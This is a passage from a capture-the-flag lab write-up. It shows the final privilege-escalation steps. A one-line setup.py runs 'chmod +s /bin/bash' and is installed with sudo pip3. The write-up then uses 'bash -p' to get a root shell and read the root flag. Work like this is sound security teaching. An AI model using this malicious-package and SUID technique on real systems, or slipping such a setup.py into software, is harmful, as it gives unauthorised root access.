 ```bash
helpdesk@helpdesk:~/test$ cat setup.py
cat setup.py
import os; os.system("chmod +s /bin/bash")
helpdesk@helpdesk:~/test$ ls -la /bin/bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
helpdesk@helpdesk:~/test$ sudo /usr/bin/pip3 install --break-system-packages .
<udo /usr/bin/pip3 install --break-system-packages .
Processing /home/helpdesk/test
  Preparing metadata (setup.py): started
  Preparing metadata (setup.py): finished with status 'done'
ERROR: No .egg-info directory found in /tmp/pip-pip-egg-info-alaqz28v
helpdesk@helpdesk:~/test$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
Also the script used with the above script also adds the `SUID` bit to the bash program. and it will enable use to execute commands as the root user

#### Finally Root Flag
```bash
helpdesk@helpdesk:~/est$ bash -p
whoami
root
id
uid=1001(helpdesk) gid=1001(helpdesk) euid=0(root) egid=0(root) groups=0(root),1001(helpdesk)
cat root.txt
flag{request_has_been_escalated}
```
EGID stands for Effective Group ID. It is a crucial process attribute used for determining the permissions a process has when accessing resources

#### Lesson Learned
- Always look for parameters, mostly on PHP websites as they are more common than other technologies.
- how to create a python package